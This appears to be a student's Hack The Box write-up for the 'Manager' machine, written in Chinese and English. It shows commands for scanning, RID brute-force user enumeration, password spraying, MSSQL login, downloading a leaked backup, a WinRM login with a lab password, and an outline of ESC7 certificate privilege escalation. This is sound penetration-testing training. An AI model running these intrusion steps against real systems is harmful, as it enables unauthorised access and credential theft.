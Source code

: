 Hack The Box Write-up Manager
=============

# Scanning
    sudo nmap -sC -sV -O 10.10.11.236
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/27d8dc37-94da-42ea-9236-6a60b7cc92e0)
To initiate user enumeration, we employ the Crackmapexec program for brute-force attacks

***
## Enumeration
    crackmapexec smb 10.10.11.236 -u anonymous -p "" --rid-brute 10000

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/729f254e-62fc-42a9-9a39-24f4ce4ed472)


透過暴力破解過程取得用戶憑證
-   zhong
-   cheng
-   ryan
-   ravan
-   jinwoo
-   chinhae
-   operator

一旦我們有了用戶列表，接下來就可以進行password spraying。
一樣使用Crackmapexec 來完成此任務。

    crackmapexec mssql manager.htb -u /home/kali/Desktop/user.txt -p /home/kali/Desktop/user.txt


![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/bb1b5685-56eb-4863-b86d-34e54dce67b0)

在此步驟中，我們觀察到運營商的使用者可以使用 MSSQL 進行身份驗證。我們與它建立連接，利用指定的命令來檢查裡面是否有任何資料或資訊。
我們發現operator可以進去
故我們透過此進去。

    impacket-mssqlclient -port 1433 10.10.11.236/operator:operator@10.10.11.236 -window 
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/1a1fa680-4d8d-4f9c-94f7-22716c248ede)

發現沒有甚麼資訊，我就更深入去研究

[這是我查詢的連結](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server?source=post_page-----c56f238991c0--------------------------------)

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/8175bdb9-9c8c-45dc-a091-9fddd6263021)

看到用藍色字標起來的檔案很可疑 把它下載起來

    wget 10.10.11.236/website-backup-27-07-23-old.zip
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/b911ad94-53fb-4269-aafc-cc295549e195)


### 打開可疑介面，發現用戶帳號密碼
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/35c851e5-2793-404b-adef-0dd0f52a01fd)

我們將zip打開，看到用戶raven的帳號及密碼。


### 利用Evil-winrm使用指定的命令建立連接，成功取得了User flag
    evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
    
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/97ef99a2-867c-4cd4-a407-9f92b02f23a7)


#### FLAG
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/be790095-3c18-4660-8b2e-13c9a3992109)


# 權限提升
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/69e5b5a8-bdb2-40e9-aff8-b6edcb3c7bcb)


觀察到 SeMachineAccountPrivilege 已啟用，並且可用於搜尋和發現漏洞的選項有限。為了繼續，我們使用指定的命令將 Certify.exe 上傳到電腦。
此檔案利用以下連結的程式    
[certify.exe](https://github.com/depradip/Ghostpack_CompiledBinaries/tree/main)

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/6e75f1b8-9fab-4dca-8632-f4e51859c6d8)


接下來在他那邊執行程式

    ./Certify.exe find /vulnarable
    
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/4337adcb-33a0-4233-953f-8dd3ec1fcdeb)


發現SubCA，故我們使用Hacktrick裡面的技巧
但是我一直無法使用certipy
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/06cc6953-ae2b-4c15-bbd7-56a9f2f042bf)

如果可以用的話，會呈現這樣的資訊
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/37963fa7-c13a-40b0-a61a-28abe9f76549)

然後看到Vulnerabilities發現是ESC7
從[此連結](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation?source=post_page-----c56f238991c0--------------------------------)教學如何解
然後會取得憑證
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/adf46b2d-f57e-4c97-9e0a-3c17df92e8f5)

取得administrator的帳密
在進入帳號，照像之前的步驟拿到root.txt 取得flag.
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/144238459/bc2a517c-9b11-429c-858d-a6c774ef074c)
